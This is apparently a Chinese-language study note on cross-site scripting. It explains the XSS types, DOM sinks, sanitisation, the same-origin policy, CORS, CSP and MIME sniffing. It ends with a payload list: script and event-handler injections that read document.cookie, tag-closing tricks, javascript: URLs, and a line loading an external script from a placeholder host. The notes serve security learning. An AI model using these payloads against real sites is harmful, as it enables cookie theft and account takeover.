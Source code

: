 ```yaml
---
title: XSS
date: '2025-05-02 17:48:18'
updated: '2025-05-09 09:34:20'
permalink: /post/xss-z1jgiuq.html
comments: true
toc: true
---
```




# XSS

## XSS

XSS(跨站脚本攻击)，当网站将用户的输入不加过滤，消毒地拼接到HTML页面中，导致用户渲染这个HTML页面时，触发了其中的恶意脚本，导致信息泄露等危害

### 分类

XSS攻击主要有三种类型

#### 反射型XSS

又称非持久性XSS，这个类型指的是用户在输入什么内容提交到服务器后，服务器没有对数据处理或存储到数据库中，而是会原封不动的返回到页面中，加载到页面的HTML中，从而让用用户被攻击
最常见的就是搜索引擎
![image-20250423184447437](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250423184447437.png)

这种类型的注入都是动态产生的，所以是非持久的

一般要利用这种漏洞，需要攻击者构造具有相关攻击的url，将网页发送给受害者，并且受害者点击了这个url，就可能会导致受害者的信息泄露

#### 存储型XSS

又称持久型XSS，和反射型最大的不同就是存储型会将攻击脚本永久地存放在目标服务器，请求含有攻击脚本的目标网页就会触发
一般会存储在提交等交互功能，如发帖留言，用户名等，攻击者利用这些地方提交XSS，当用户打开页面时，前端从后端数据库获得数据时，攻击脚本可能就会获得数据

#### DOM型XSS

DOM型XSS是不会经过服务器的，而是直接从DOM、Window等对象中获取数据

> [!知识点]
> DOM是文档对象模型，是一种处理html或xml的标准api
> 会将这个文档处理为一种树形结构
> 让网站可以用javascript来对文档中的标签、属性、内容等进行增删改查的操作

一些可能会导致DOMXSS的接收器

```js
 document.write()
 document.writeln()
 document.domain
 element.innerHTML
 element.outerHTML
 element.insertAdjacentHTML
 element.onevent
 ……
```

像利用 `<img src='1' onerror="alert(1)"/>` 也可以产生XSS攻击

### 防御

* 过滤消毒转义
  - 过滤：通过黑白名单限制关键词的输入
  - 消毒：直接移除掉可能有害的代码，如 `<script>`，`onerror`等
  - 转义：将一些特殊的符号转换为文本，如 `''`，`<>`等

### **sop** 同源策略

同源策略是浏览器限制了不同源之间如何进行资源交互，用于隔离潜在恶意文件的安全机制，规定了跨源之间的脚本是隔离的，一个源的脚本不能访问/操作另一个源的绝大部分属性或方法

同源策略主要限制了以下行为

1. DOM访问限制：禁止不同源的脚本访问对方的DOM
2. 网络请求限制：限制使用XMLHttpRequest或Fetch API向不同源发起请求（这个主要是限制CSRF攻击）

> [!源]
> 在同源策略中，源由三部分组成
>
> * 协议
> * 域名
> * 端口
>
> 只有当这三个部分完全匹配时，两个url才属于同一个源

同源策略控制了不同源之间的交互，这种交互分为三类

* 通常允许源域写操作
  - 链接
  - 重定向
  - 表单提交
* 通常允许跨源资源嵌入
  - `<script src="..."></script>` 标签嵌入跨源脚本
  - `<link rel="stylesheet href="...">` 标签嵌入
  - `<img>`/`<viedo>`/`<audio>` 嵌入多媒体资源
  - `@font-face` 引入的字体，一些浏览器允许跨源字体
  - `<frame>` 和 `<iframe>` 载入的如何资源
* 通常不允许跨源资源读操作

这些操作可以在目标域允许，但是无法获取操作得到的资源，也不能影响目标网站的运行

#### CORS协议

全称是跨域资源共享，由于sop同源策略过于严格，导致有些网站体验不太号，通过这个标准，就可以允许浏览器读取跨域的资源
CORS 需要浏览器和服务器同时支持，整个通信过程，都是由浏览器自动完成，不需要用户操作，只要服务器实现了CORS接口，就可以跨源通信

### CSP 内容安全策略

CSP 类似于一种白名单，开发者明确告诉客户端，那些外部资源是可以加载或执行的，降低XSS的风险
CSP 可以通过HTTP头信息或meta元素定义

除了白名单外，CSP还有两种指定可信资源的方式

* `nonce`：CSP指令可以指定一个随机数，在加载脚本的标签中使用系统的随机数，如果值相同，就可以执行，随机数要在每次加载页面时生成
* `hashs`：CSP指令指定受信任的脚本的哈希值，如果实际脚本的哈希值和指定的哈希值不同，就不会执行脚本

### 内容嗅探机制

这是一种浏览器的机制，当浏览器识别到这个文件类型时，如img，pdf等，就会自动加载，如果这些文件中存在危害，就会触发

当服务器带着 `X-Content-Type-Options:nosniff` 响应头时，面对 `content-type` 未设置的响应时，不会自动推断响应内容的类型并打开

### XSS漏洞payload

`<script>` 标签

```html
<script>alert(1)</script>
<script>alert("marin")</script>
<script>alert(/marin/)</script>
<script>alert(document.cookie)</script>
  
<script src="http://xxx.com/xss.js"></script> 
<!--加载外部恶意脚本-->
```

基本上所有的标签都可以用 **on事件** 来触发恶意代码
`svg` 标签

```html
<svg onload="alert(1)">
```

`img` 标签

```html
<img src=1 onerror=alert(document.cookie)>
```

`body` 标签等

```html
<body onload=alert(document.cookie)>
```

HMTL5特性的XSS
相关特性可以参考[HTML5 Security Cheatsheet](https://html5sec.org/)中的内容
通过 `autofocus` 执行 `focus` 事件

```html
<input onfocus=alert(document.cookie) autofocus>
```

又或者利用多个 `autofocus` 触发 `onblur` 事件

```html
<input onblur=alert(document.cookie) autofocus>
<input autofocus>
```

闭合标签
当输入的内容会被加载到页面时，可以观察被传入的位置，尝试将传入位置的内容闭合后加入payload

```html
<h1 id=" payload ">
"><script>alert(1)</script>

<style>payload</style>
</style><script>alert(1)</script><style>
```

包含url的特性
当传入的内容被包含到一个 `href` 时

```html
<a href='payload'>Click here</a>
```

可以使用一个 `Javascript:` 协议的url来XSS

```
javascript:alert(1)
```

‍

‍

‍

‍

参考
[同源策略(SOP) | 网安](https://bergins-organization.gitbook.io/wang-an/develop/web/bi-ji/tong-yuan-ce-le-sop)
[4.2. XSS — Web安全学习笔记 1.0 文档](https://websec.readthedocs.io/zh/latest/vuln/xss/index.html)
